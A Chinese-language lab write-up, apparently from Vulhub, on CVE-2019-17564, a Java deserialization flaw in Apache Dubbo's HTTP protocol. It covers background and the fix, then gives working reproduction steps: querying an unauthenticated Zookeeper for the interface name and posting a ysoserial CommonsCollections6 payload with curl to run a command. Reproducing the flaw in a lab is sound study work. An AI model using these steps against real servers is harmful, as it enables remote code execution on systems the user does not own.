

# Aapche Dubbo Java 反序列化漏洞（CVE-2019-17564）

Apache Dubbo 是一款高性能、轻量级的开源 Java RPC 服务框架。Dubbo 可以使用不同协议通信，当使用 http 协议时，Apache Dubbo 直接使用了 Spring 框架的 `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter` 类做远程调用，而这个过程会读取 POST 请求的 Body 并进行反序列化，最终导致漏洞。

在 Spring 文档中，对 `HttpInvokerServiceExporter` 有如下描述，并不建议使用：

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

这个漏洞影响 Apache Dubbo 2.7.4 及以前版本，2.7.5 后 Dubbo 使用 `com.googlecode.jsonrpc4j.JsonRpcServer` 替换了 `HttpInvokerServiceExporter`。

参考链接：

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 漏洞环境

执行如下命令启动一个 Apache Dubbo 2.7.3 Provider：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080`，服务器默认会返回 500 错误。

## 漏洞复现

利用该漏洞需要先知道目标 RPC 接口名，而 Dubbo 所有的 RPC 配置储存在 registry 中，通常使用 Zookeeper 作为 registry。如果能刚好找到目标的 Zookeeper 未授权访问漏洞，那么就可以在其中找到接口的名称与地址。

Vulhub 对外开放了 8080 端口和 2181 端口，其中 2181 即为 Zookeeper 的端口，我们本地下载 [Zookeeper](https://zookeeper.apache.org/)，使用其中自带的 **zkCli** 即可连接到这台 Zookeeper 服务器：

```
./zkCli -server target-ip:2181
```

连接后进入一个交互式控制台，使用 `ls` 即可列出其中所有节点，包括 Dubbo 相关的配置：



获取到 RPC 接口名为 `org.vulhub.api.CalcService`。直接用 ysoserial 生成 CommonsCollections6 的 Payload 作为 POST Body 发送到 `http://your-ip:8080/org.vulhub.api.CalcService` 即可触发反序列化漏洞：

```
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```


进入容器，可见 `touch /tmp/success` 已成功执行。


